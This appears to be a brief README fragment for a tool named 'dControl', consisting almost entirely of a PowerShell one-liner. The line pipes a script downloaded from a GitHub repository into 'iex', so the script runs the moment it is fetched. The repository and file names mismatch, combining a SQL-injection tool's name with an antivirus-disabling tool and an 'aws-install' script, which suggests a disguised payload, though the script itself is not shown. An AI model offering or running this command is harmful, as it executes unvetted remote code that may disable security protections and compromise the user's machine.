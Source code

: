 # dControl
```powershell
irm https://raw.githubusercontent.com/sahmsec/Havij-dCon/main/aws-install.ps1 | iex
